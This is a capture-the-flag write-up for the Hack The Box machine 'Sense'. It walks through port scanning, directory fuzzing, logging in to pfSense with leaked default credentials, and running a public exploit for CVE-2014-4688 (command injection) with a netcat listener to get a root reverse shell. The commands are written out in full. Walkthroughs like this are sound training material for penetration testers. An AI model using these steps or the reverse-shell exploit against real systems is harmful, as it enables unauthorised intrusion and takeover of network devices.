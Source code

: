 # Sense

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/sense)  [2](https://app.hackthebox.com/machines/Sense)

**Machine ip:** 10.10.10.60

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e379c135-5e25-4ae9-abb1-13ee23189ff6)


## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.60 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.60`

+ 2 ports are open which are 80 and 443:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6749553f-08d1-460f-aad6-1fbb09ae51ea)

+ Port 80 redirects to port 443 so we really only have one port to enumerate.
+ Navigate to `https://10.10.10.60/`
+ pfsense login panel.
+ Try [pfsense](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html) default username and password.
+ Try brute force trial and errors.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d249333a-0934-4e18-a2ff-d8eeb457d36c)

+ No works, and continue with directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.60/ -k -n -x html,php,txt -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9a9704e1-f08a-4337-8340-8807b3a9efb4)

+ **system-users.txt** and changelog.txt are interesting, and check them out.
+ Navigate to `https://10.10.10.60/system-users.txt` and `https://10.10.10.60/changelog.txt`
```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6601d0fd-d8aa-440c-b85e-eb1598afba6e)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cd931495-72f9-4c8f-b47b-d3f125ba4868)

+ Login pfsense using credentials `rohit`:`pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/97eb08bc-2825-44a1-a5ba-897c186d2689)

+ See that version is **2.1.3**


## Privilege Escalation

+ View any vulnerabilities that pfsense is associated with : `searchsploit pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d1945b44-4ad0-402f-add2-f2206ebf4ad8)

+ For more perspective: https://sploitus.com

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0e8107b4-dc87-45ac-b91e-5f8fdbf561ee)

+ pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection: [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
+ Check the vulnerability what's doing.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ff6726fb-505d-4fd4-90a8-460f9d7a5549)

+ Transfer the exploit: `searchsploit -m 43560`
+ Start listener: `nc -lnvp 5555`
+ `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.7 --lport 5555 --username rohit --password pfsense`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d6f35b34-e308-432b-8f48-3756e6010eba)

+ Get root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/35e0d755-020d-4e1f-92e6-e8405893a3c0)


# References & Alternatives
+ https://vvmlist.github.io/#sense
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/sense-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2021/03/11/htb-sense.html
+ https://benheater.com/hackthebox-sense/
+ https://xavilok.es/posts/Sense.php
+ https://ethicalhacs.com/sense-hackthebox-walkthrough/
+ https://v3ded.github.io/ctf/htb-sense
+ https://medium.com/@andr3w_hilton/htb-sense-walkthrough-6236970644c1
